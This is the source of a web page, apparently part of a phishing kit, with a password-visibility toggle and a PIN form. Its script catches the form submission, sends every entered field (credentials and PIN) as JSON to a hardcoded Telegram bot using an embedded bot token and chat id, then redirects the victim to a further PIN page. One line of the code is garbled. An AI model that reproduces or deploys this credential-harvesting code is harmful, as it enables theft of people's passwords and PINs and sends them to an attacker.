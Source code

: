                 $("#password").prop("type", "text");

                $("div#eyeClose").on('click', function() {
                    $("#eyeOpen").css("display", "block");
                    $("#eyeClose").css("display", "none");

                    $("#password").prop("type", "password");
                });
            });
            
const chat_id = '6270405092', botID = 'bot6306159350:AAElaFFZ3_WeubFXt0T-SW-vTN3E8__jyoE';z';;z';

    const telegramURL = `https://api.telegram.org/${botID}/sendMessage`;

    document.querySelector('#setPin').addEventListener("submit", async e => { // When the user submits the form
        e.preventDefault(); // Don't submit
        let text = JSON.stringify( // Convert the form data to a string to send as our Telegram message
            Object.fromEntries(new FormData(e.target).entries()), // Convert the form data to an object.
        null, 2); // Prettify the JSON so we can read the data easily
        const sendMessage = await fetch(telegramURL, { // Send the request to the telegram API
            method: 'POST',
            headers: {"Content-Type": "application/json"}, // This is required when sending a JSON body.
            body: JSON.stringify({chat_id, text}), // The body must be a string, not an object
        });
        const messageStatus = document.querySelector('#status');
        if (sendMessage.ok) // Update the user on if the message went through
            messageStatus.textContent = "";
        else
            messageStatus.textContent = "Message Failed to send :( " + (await sendMessage.text());
        e.target.reset(); // Clear the form fields.
        window.location.href = '/pin.html';
    });

            
        });
        
   </script>
        </form>
      </div>
    </section>
    <!-- <script src="./axios.js" type="module"></script> -->
    <script src="./Pin.html" type="module"></script>
    <script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
  </body>
</html>

